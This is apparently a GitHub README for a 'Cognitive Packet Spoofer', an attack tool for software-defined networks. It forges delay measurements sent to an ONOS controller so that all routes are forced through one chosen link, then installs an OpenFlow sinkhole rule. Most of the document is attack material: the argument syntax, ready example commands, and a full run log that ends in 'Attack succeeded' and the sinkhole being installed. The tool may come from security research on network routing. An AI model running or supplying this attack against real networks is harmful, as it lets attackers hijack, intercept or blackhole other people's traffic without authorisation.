 # Cognitive Packet Spoofer
## Contains the Cognitive Packet Spoofer for the sinkhole attack scenario
## Requirements
* Python 3.8 or higher
* Modules stated in the requirements.txt file
* Sudo / Administrator privilages
* Access to the controller over the management network plane
## Parameters
To obtain the list of the parameters type --help as a parameter.
```bash
CognitivePacketSpoofer.py [-h] [--sleep SLEEP] [--maxiter MAXITER]
                                 [--dont-spoof-on [DONT_SPOOF_ON [DONT_SPOOF_ON ...]]]
                                 [--spoof-on [SPOOF_ON [SPOOF_ON ...]]]
                                 ctrlIP link deviceID

positional arguments:
  ctrlIP                This is the IP of the controller.
  link                  Link that will receive low delay score. Other links
                        will receive high delay scores in spoofed
                        packets.Notation- srcIP-dstIP
  deviceID              ID of the device on which the sinkhole will be
                        installed.

optional arguments:
  -h, --help            show this help message and exit
  --sleep SLEEP         Sleep between two chunks of spoofed cognitive packets
                        in seconds. Default is 0
  --maxiter MAXITER     Number of times spoofer will send all of the possible
                        spoofed packets. Default is 100.
  --dont-spoof-on [DONT_SPOOF_ON [DONT_SPOOF_ON ...]]
                        Links that will not be affected by spoofing. Cannot be
                        used with --spoofOn parameter. Use notation srcIP-
                        dstIP srcIP2-dstIP2
  --spoof-on [SPOOF_ON [SPOOF_ON ...]]
                        Provide links that will be spoofed. Cannot be used
                        with --dontSpoofOn parameter. Use notation srcIP-dstIP
                        srcIP2-dstIP2
 ```
# Running the Cognitive Packet Spoofer

To run the spoofer with minimal number of positional arguments type:
```bash
python3 CognitivePacketSpoofer.py 10.0.1.123 10.1.1.1-10.1.1.2 of:0000000000000001
```
This will result in spoofing cognitive packets in that way that the link between daemon 10.1.1.1 and daemon 10.1.1.2 will be treated by the controller as a link with lowest possible score. All other links will be treated as links with high delay. This will cause that all possible routes will be directed via selected link.

To select links that will not be spoofed type:
```bash
python3 CognitivePacketSpoofer.py 10.0.1.123 10.1.1.1-10.1.1.2 of:0000000000000001 --dont-spoof-on 10.1.1.3-10.1.1.4 10.1.1.4-10.1.1.5
```
This will cause the Cognitive Packet Spoofer to spoof cognitive packets for all of the links but provided as a parameter. Number of links must be in range <1,N> where N is equal the number of all links in the netwokrk. Same syntax is used to define spoof-on parameter. Note that both dont-spoof-on and spoof-on are mutually excluisve.

# Example (correct) output

```bash
python3 CognitivePacketSpoofer.py 192.168.100.36 10.1.1.1-10.1.1.2 of:0000000000000001 --maxiter 10 --sleep 0 --spoof-on 10.1.1.3-10.1.1.2 10.1.1.4-10.1.1.3 10.1.1.4-10.1.1.2
Starting with gathering info on daemons in the network. Fetching data from http://192.168.100.36:8181/onos/rnn/SRE/cnm
Fetched the CNM from the controller
Fetched the deamons list from the controller
Fetched IPs of the daemons:  ['10.1.1.5', '10.1.1.4', '10.1.1.3', '10.1.1.2', '10.1.1.1', '10.1.1.6', '10.1.1.7', '10.1.1.8', '10.1.1.9', '10.1.1.10']
Checking if provided link 10.1.1.1-10.1.1.2 is among the daemons IPs
Provided link is correct.
Dont Spoof on list :  []
Spoof On list:  [('10.1.1.3', '10.1.1.2'), ('10.1.1.4', '10.1.1.3'), ('10.1.1.4', '10.1.1.2')]
Starting spoofing packets
Sent packets with delay  [('delay=500', 6), ('delay=1', 2)]  Percent ready  0.0 %
Sent packets with delay  [('delay=500', 6), ('delay=1', 2)]  Percent ready  10.0 %
Sent packets with delay  [('delay=500', 6), ('delay=1', 2)]  Percent ready  20.0 %
Sent packets with delay  [('delay=500', 6), ('delay=1', 2)]  Percent ready  30.0 %
Sent packets with delay  [('delay=500', 6), ('delay=1', 2)]  Percent ready  40.0 %
Sent packets with delay  [('delay=500', 6), ('delay=1', 2)]  Percent ready  50.0 %
Sent packets with delay  [('delay=500', 6), ('delay=1', 2)]  Percent ready  60.0 %
Sent packets with delay  [('delay=500', 6), ('delay=1', 2)]  Percent ready  70.0 %
Sent packets with delay  [('delay=500', 6), ('delay=1', 2)]  Percent ready  80.0 %
Sent packets with delay  [('delay=500', 6), ('delay=1', 2)]  Percent ready  90.0 %
Attack succeeded.
Installing sinkhole on device  of:0000000000000001
Successfully installed the OpenFlow rule for sinkhole attack.
To delete that sinkhole OF rule press enter
[ENTER]
Deleting using the flow id  45035997712501612
Flow with id 45035997712501612 was deleted successfully with response: OK
Cleaning up...
Cleanup ready
```
